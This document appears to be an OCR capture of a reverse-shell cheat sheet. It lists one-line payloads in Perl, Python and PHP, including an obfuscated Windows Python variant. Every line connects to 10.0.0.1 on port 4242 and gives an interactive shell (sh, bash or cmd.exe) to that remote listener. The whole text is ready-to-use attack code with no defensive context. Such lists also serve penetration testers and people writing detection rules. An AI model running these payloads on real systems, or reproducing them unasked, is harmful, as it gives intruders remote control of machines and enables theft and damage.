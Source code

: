 	Perl:

		perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

		Windows Only:

			perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'



	Python:

		export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

		Windows Only:
			
			C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

	PHP:

		php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

		php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
		
		php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
